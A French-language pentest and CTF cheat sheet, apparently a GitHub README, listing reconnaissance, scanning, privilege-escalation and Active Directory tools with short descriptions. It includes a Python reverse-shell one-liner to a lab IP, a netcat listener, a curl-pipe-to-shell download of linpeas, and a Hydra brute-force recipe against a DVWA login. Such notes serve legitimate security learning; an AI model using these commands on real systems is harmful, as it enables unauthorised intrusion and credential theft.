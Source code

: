 # CTF
Write-up des chall que j'ai réalisé


# TOOLS
FrameWork pour OSINT de numero de telephone => phoneinfoga 
FUZZ => Feroxbuster, dirb, dirbuster, gobuster

Scanner de vulnerabilitö web => nikto, Nessus, Rapid7, OpenVas
Done => fuzz sous-domaine + Port Scan (https://github.com/v4d1/Dome) 

Scanner de platforme web => BurpSuite, ZAProxy

Reconnaissance passive graphique => Maltego
Reconnaissance passive => Metagoofil

yersinia => Pour les protocoles de communication (Cisco et autre)

CRUNSH : DICO + SEL

CUPP : Création de dico en fonction des noms données

Setoolkit : Social Ingénieuring (copie de site pour récupérer les URL)

hashid : donne le type de hash d'un hash

arpspoof : recupere les requetes ARP et les transmets (man in the middle)

exiftool : metadata du fichier

hexdump : (-C) transformation en hexa du fichier bin

powershell-empire : comme metaspote, exploit windows

KrbRelayUp : Escalation privilege sur Windows en exploitant les requêtes LDAP non-signées

recon-ng : Framework de reconnaissance passive (avec API)

Discover : Framework de reconnaissance passive (avec API) + recon ng + google dorks

pypykatz / Empire : Check des fichiers pour monter les privilèges WINDOWS

linuxprivchecker et linpeas : Check des fichiers pour monter les privilèges LINUX
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh

Steghide : Extraction de fichier a partir d'un autre fichier et passphrase

crackmapexec : Pentest orienté AD (connexion via plusieurs protocole, script, hash, un couteau suisse)

dnSpy : Reverse Application : https://github.com/dnSpy/dnSpy

------SMB------

enum4linux.py : Fait tout un tas de test sur le SMB

-----Scanner-----

nmapAutomator : git clone https://github.com/21y4d/nmapAutomator.git
                sudo ln -s $(pwd)/nmapAutomator/nmapAutomator.sh /usr/local/bin/
                
-----WEB------

Nikto : Pentest Web -> check une URL

dirb : brute force pour trouvé des pages web ou des dossiers

zaproxy : Nessus pour le web (scan les vulnérabilitées)

wpscan : scan wordpress -> Puissant

curl : requete vers site web

droopescan : Scan de site Drupal (comme Wpscan pour workPress)

Cewl : récupere les mots d'un site et fait un dico pour brute force

https://whatsmyname.app/ : recherche de compte a partir d'un pseudo 

GTFOBins : Exploit de binaire Linux => https://gtfobins.github.io/


------Reverse Shell -----
rlwrap -caR nc -lvnp $port : Ecoute et stabilise le shell

Netcat Ecoute :
nc -lvnp $port

Avoir un shell :
python3 -c 'import pty;pty.spawn("/bin/bash")'

export RHOST="10.10.14.5";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'


# BRUTE FORCE
Avec Hydra :
```
CSRF=$(curl -s -c dvwa.cookie "192.168.1.44/DVWA/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
```
```
SESSIONID=$(grep PHPSESSID dvwa.cookie | awk -F ' ' '{print $7}')```
```
```
curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${CSRF}&Login=Login" "192.168.1.44/DVWA/login.php"
```
```
hydra  -L /usr/share/seclists/Usernames/top_shortlist.txt  -P /usr/share/seclists/Passwords/rockyou-40.txt \
  -e ns  -F  -u  -t 1  -w 10  -v  -V  192.168.1.44  http-get-form \
  "/DVWA/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:S=Welcome to the password protected area:H=Cookie\: security=low; PHPSESSID=${SESSIONID}"
```

# WORDLIST :
/usr/share/wordlists
  |--dirb
  |--dirbuster
  |--fasttrack.txt
  |--fern-wifi
  |--metasploit
  |--nmap.lst
  |--rockyou.txt
  |--wfuzz

/usr/share/wordlists/dirb/common.txt => sub domain 

/usr/share/wordlists/dirb/big.txt => sub domain 

/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 

/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 

/usr/share/seclist/bitquark-subdomains-top100000.txt

/usr/share/seclist/subdomains-top1millions-110000.txt

# AD / Windows Tools :

evil-winrm : connection a windows (avec un meterpreter)

BloodHound (avec neo4j)

windapsearch : Recherche sur LDAP (si soucis d'installation faire :
```
sudo pip2 install ldap3 
sudo apt install python3-ldap 
```
